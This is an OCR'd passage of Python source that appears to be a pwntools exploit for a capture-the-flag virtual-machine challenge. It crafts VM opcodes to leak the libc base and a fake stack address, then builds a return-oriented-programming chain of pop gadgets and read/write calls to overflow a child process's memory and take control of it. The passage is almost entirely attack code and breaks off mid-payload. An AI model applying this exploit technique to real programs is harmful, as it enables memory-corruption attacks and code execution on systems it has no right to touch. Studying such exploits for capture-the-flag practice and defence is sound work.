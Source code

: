 ```python
def Cmp_j(dst, src, imm):
    opcode = p8(9) + p8((dst<<4) + src) + p64(imm)
    return opcode
def Show(reg):
    opcode = p8(10) + p8(reg)
    return opcode
def Showall():
    opcode = ''
    for i in range(10):
        opcode += p8(10) + p8(i)
    return opcode

'''
r0 = 0x8
r1 = 0x28
r2 = libc base
r3 = text base
r4 = (fake_stack - data segment) + 0x150
r5 = offset(csdata - cs)
r6 = text base
r7 = stack return addr

r8 = 1              ; rax
r9 = 0              ; rdi
r10 = 0x7fb0        ; rsi
r11 = fake_stack    ; rdx
'''

insns = 'a'*0x28
insns += Show(2)
insns += Show(11)
# read(0, fake_stack, 0x2873)
insns += Mov_r_r(8, 9)   # rax = 0 rdi = 0
insns += Mov_r_r(10, 11) # rsi = fake_stack
insns += Mov_r_r(11, 5)  # rdx = 0x2873
insns += Jmp_i(0x2353)

p.sendafter(": ", insns)
p.sendafter(": ", "\n") # trigger

p.recvuntil("r2 = 0x")
libc_base = int(p.recvuntil("\n", drop=True), 16)
leak('libc base', libc_base)

p.recvuntil("r11 = 0x")
fake_stack = int(p.recvuntil("\n", drop=True), 16)
leak('fake_stack', fake_stack)

pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rdx_r12 = libc_base + 0x000000000011c371

# Now, we control parent to interactive with child
# give it a large size to overflow child's rom and control it
payload = "a"*0xa0
# parent read size
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x8)*2 + p64(libc_base+libc.sym["read"])
# write(5, fake_stack, 8) to child
payload += p64(pop_rdi) + p64(5) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x8)*2 + p64(libc_base+libc.sym["write"])
# parent read payload
```